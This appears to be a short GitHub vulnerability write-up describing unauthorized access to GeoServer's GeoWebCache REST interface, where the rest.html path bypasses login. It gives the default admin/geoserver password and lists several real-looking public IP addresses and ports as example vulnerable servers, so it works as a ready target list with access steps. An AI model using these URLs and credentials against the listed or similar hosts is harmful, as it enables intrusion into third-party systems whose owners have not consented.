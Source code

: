 GeoServer It is an open source software server used for editing and publishing geospatial data. It is developed based on the Java language and implements support for the OGC standard. It can support users to render and display two-dimensional maps on the web, and perform pan and zoom operations on them. There is unauthorized access to this system.

/geoserver/gwc/rest   Access prompt login window
/geoserver/gwc/rest.html  Directly access the logged in page

http://112.29.170.250:8083/geoserver/gwc/rest
![image](https://github.com/Qxyday/GeoServe---unauthorized/assets/148453660/44efb636-1065-435b-9fac-f0e02c1867f4)
Enter the default password admin/geoserver
![image](https://github.com/Qxyday/GeoServe---unauthorized/assets/148453660/1663399d-898b-4466-a2f8-addae0219c11)
http://112.29.170.250:8083/geoserver/gwc/rest.html
You can directly access the logged in page
![image](https://github.com/Qxyday/GeoServe---unauthorized/assets/148453660/b58883e2-ad61-4772-a737-66632e217ec8)


example：
http://82.76.36.89:6488/geoserver/gwc/rest.html
http://47.105.153.193:8080/geoserver/gwc/rest.html
http://89.116.24.253:9090/geoserver/gwc/rest.html
